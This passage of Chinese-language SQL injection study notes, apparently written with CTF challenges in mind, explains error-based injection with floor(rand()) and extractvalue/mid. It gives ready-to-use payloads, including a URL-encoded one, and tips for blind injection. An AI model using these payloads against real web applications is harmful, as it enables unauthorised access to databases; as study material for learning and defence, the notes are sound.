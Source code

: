 floor的话能使用的较为灵活，例如能通过and来进行报错注入，也能通过union select 来进行注入



例：

```
select * from users where id=1 and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

> 此处比较长，
>
> 小括号`()`后的x和a都是表示别名的意思。
>
> 之所以把and后面的语句包裹起来，是因为后面的表达式的值只能为bool值，而不是结果集：
>
> ​			也就是说之所以使用`select 1 from (……)a`是因为and要求返回的为bool值，而不是结果集





##### floor的补充mid

同样的，使用floor函数的作用为截取完整的字符。其实也可以通过`mid`函数来进行字符的截取，从而获取全部的字符

```
select * from users where id=1 and extractvalue(1,concat(0x7e,mid((select database()),5)));
```

> `extractvalue()`和`updatexml()`的最大长度为32.
>
> `mid()`函数从哪里截取看你自己。但是其实mid()函数也受32长度的限制。只是输出的顺序，就可以进行显示所有字符。
>
> 
>
> ```
> 1' and extractvalue(1,concat(0x7e,mid((select database()),5)))%23
> ```
>
> 这里重新写一下。这样看的清楚些









### 盲注

切记！！！

sql是对大小写不敏感的。`d`=`D`。盲注出来的数据无法区分大小写。CTF题中要注意！！！



需要注意的是如果使用`and`来进行盲注的话。如果注入的字段不是`id`，而是`username`这样的话。必须先猜

左边的用户名。因为如果`and`前面的判断为`false`的话，根本就不会执行后面的语句，所以盲注自然也不行。这里我更推荐使用`^`异或注入。

> 当然对于`and`也有其他的可替代的连接符`+`，`<>`，`>`，`<`。详情可以看一下`SQL语法杂记`的运算符
>
> 当然，其实用`or`也行。不过`or`搭配sleep()……
